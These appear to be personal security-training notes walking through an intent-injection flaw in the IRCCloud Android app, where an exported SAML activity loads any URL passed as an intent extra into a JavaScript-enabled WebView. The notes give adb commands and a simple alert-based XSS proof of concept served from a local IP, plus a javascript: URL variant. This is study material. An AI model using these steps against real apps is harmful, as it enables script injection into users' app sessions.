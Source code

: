 > start an activity with our malisous data 

use [[how to find a vuln]]

#### attify irc-cloud
1. review `manfiest.xml` search for `intent-filter` 
2. an interesting filter under `android:name="com.irccloud.android.activity.SAMLAuthActivity"` 
	```xml
	<intent-filter>
		<action android:name="android.intent.action.VIEW"/>
		<category android:name="android.intent.category.DEFAULT"/>
	</intent-filter>
	```
1.  `SAMLAuthActivity` used to load a WebView 
2. reviewing code
	```java
	if (getIntent() != null && getIntent().hasExtra("auth_url")) {
		getSupportActionBar().setTitle(getIntent().getStringExtra("title"));
		this.mWebView.loadUrl(getIntent().getStringExtra("auth_url"));
		return;
	}
	```
3. so we can send intent with extra strings
	```adb
	└─$ adb shell am start -n com.irccloud.android/.activity.SAMLAuthActivity -e "auth_url" "https://google.com" -e "title" "google" 
	```
4. since `this.mWebView.getSettings().setJavaScriptEnabled(true);` we can exploit XSS
	1. host XSS poc
		```html
		<html>
			<body>
				<script>alert(1337); confirm(1337);</script>
			</body>
		</html>
		```
	1. send intent to load the code 
		```adb
		adb shell am start -n com.irccloud.android/.activity.SAMLAuthActivity -e "auth_url" "http://192.168.189.156/index.html" -e "title" "google"
		```
		or simply call `-e "auth_url" "javascript://confirm(1)` instead of calling the costed poc